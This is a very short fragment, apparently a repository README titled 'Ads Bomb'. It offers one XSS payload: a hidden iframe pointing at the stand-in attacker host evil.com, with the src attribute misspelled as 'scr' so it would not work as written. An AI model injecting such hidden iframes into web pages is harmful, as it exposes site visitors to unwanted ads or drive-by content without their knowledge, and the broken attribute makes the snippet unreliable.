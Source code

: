 # Ads Bomb

## XSS Code :
    <iframe scr="http://evil.com/adsbomb.html" style="display:none"></iframe>